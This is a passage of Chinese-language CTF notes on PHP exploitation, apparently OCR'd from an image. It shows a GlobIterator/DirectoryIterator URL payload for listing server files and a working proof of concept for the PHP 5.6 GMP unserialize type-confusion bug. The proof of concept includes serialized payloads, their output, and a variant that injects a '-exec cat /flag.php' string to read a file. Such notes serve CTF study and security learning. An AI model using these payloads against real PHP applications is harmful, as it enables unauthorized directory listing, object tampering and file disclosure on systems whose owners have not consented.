 ```php
```
## **4.8 利用内置类Iterator进行实列化读取目录**
```php
//GlobIterator 或者  DirectoryIterator
public GlobIterator::__construct ( string $pattern [, int $flags = FilesystemIterator::KEY_AS_PATHNAME | FilesystemIterator::CURRENT_AS_FILEINFO ] ) 第一个参数为要搜索的文件名，第二个参数为选择文件的哪个信息作为键名，这里我选择用 FilesystemIterator::CURRENT_AS_FILEINFO ，其对应的常量值为0，你可以在 这里 找到这些常量的值，所以最终搜索文件的 payload 如下：
http://localhost/CTF/index.php?name=GlobIterator&param=./*.php&param2=0
或者
$a=new DirectoryIterator("glob:///*");
```
## **4.9 利用GMP类型混淆漏洞修改对象属性**
* php 5.6.x
* 反序列化入口点
* 可以触发__wakeup的触发点（在php < 5.6.11以下，可以使用内置类DateInterval）
POC:
```php
class obj{
    var $ryat;
    function __wakeup(){
        $this->ryat = 1;
    }
}
$obj = new stdClass;
$obj->aa = 1;
$obj->bb = 2;

$inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:3:"obj":1:{s:4:"ryat";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
$x = unserialize($exploit);
var_dump($obj);
-------------------------------------------------------------------------------
object(stdClass)#1 (2) {
  ["aa"]=>
  int(1)
  ["bb"]=>
  int(2)
}
Actual result:
object(stdClass)#1 (3) {
  ["aa"]=>
  string(2) "hi"
  ["bb"]=>
  string(2) "hi"
  [0]=>
  object(obj)#3 (1) {
    ["ryat"]=>
    &int(1)
  }
}
//使用内置类
$inner = 's:1:"4";a:3:{s:5:"kw0ng";R:2;s:4:"flag";s:43:"-exec cat /flag.php ;";i:0;O:12:"DateInterval":1:{s:1:"y";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
echo $exploit;

poc里的s:1:"1"要改成s:1:"4"，其中的4决定了GMP覆盖的对象是哪个object，DateInterval为php5.6-5.6.11可利用的内置类
```
## **相关的CTF题**
* LCTF-2018 T4lk 1s ch34p,sh0w m3 the sh31l